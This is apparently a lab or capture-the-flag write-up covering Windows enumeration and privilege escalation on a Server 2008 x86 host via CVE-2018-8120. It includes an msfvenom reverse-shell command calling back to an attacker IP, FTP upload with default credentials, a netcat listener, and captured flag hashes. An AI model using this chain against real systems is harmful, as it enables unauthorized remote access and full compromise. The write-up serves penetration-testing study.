 # Lateral Movement to user
## Local Enumeration
- Navigated to `C:\Users\apache\Desktop` and ran `type local.txt` to print `98e8a3c01c8d7944c46cf806438ed074`
![[Pasted image 20241025204654.png]]
- Ran `systeminfo` to get host details, and identified OS Name `Microsoftr Windows Serverr 2008 Standard` with system-type `x86` architecture - OS is vulnerable to CVE-2018-8120
![[Pasted image 20241025220625.png]]
---
# Privilege Escalation
## CVE-2018-8120
 Identified Windows Kernel Exploit for CVE-2018-8120 from https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120 and downloaded `x86.exe` to Kali host
- Ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.199 LPORT=80 -f exe > reverse.exe`
- Uploaded `x86.exe` & `reverse.exe` to target via `FTP` while logged in as `admin:admin`
- Started netcat listener on port `80`, then returned to reverse shell and ran `x86.exe reverse.exe`
![[Pasted image 20241026183414.png]]
- Checked reverse shell and found incoming connection
![[Pasted image 20241026183445.png]]
- Navigated to `C:\Users\Administrator\Desktop` and ran `type proof.txt` to print `fb1863d6c3980a8502ac04794d08b5a4`

---
# Trophy & Loot
`local.txt` = `98e8a3c01c8d7944c46cf806438ed074`
`proof.txt` = `fb1863d6c3980a8502ac04794d08b5a4